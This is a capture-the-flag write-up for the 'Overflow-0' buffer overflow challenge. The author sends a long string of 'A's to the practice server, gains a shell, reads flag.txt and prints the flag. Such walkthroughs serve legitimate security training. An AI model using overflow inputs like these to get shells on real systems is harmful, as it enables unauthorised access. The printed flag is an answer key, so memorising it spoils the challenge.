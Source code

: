 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to BIT Olympics CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#bit-olymipcs-march-2021)
***

# Overflow-0

![Overflow-0](Overflow0.PNG)

### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
